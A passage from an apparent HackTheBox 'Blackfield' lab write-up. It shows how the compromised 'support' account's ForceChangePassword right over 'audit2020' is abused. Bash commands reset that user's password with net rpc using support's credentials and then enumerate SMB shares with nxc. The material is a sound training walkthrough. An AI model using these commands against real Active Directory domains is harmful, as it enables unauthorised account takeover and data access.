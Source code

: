 Seaching for the compromised account `support` we can see right away that it has the rights to change the password of the user `audit2020` (Figure 9). Compromising `audit2020`'s password leads to having `READ` access to the `forensic` SMB share (Figure 10).&#x20;

<figure><img src="../../../.gitbook/assets/blackfield_bh_ch_pass.png" alt=""><figcaption><p>Figure 9: The support account has ForceChangePassword rights over the audit2020 account.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# changing audit2020's password
net rpc password 'audit2020' 'Password123!' -U "blackfield.local/support%#00^BlackKnight" -S dc01.blackfield.local
# writing audit2020's to a file
echo 'Password123!' > audit2020_pass
# enumerating share access
nxc smb 10.10.10.192 -u audit2020 -p audit2020_pass --shares
```
{% endcode %}

{% hint style="info" %}
We can also change the user's password using [`rpcclient`](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/).
{% endhint %}

<figure><img src="../../../.gitbook/assets/blackfield_change_audit_pass.png" alt=""><figcaption><p>Figure 10: Compromising the audit2020 account and gaining access to the forensic share.</p></figcaption></figure>
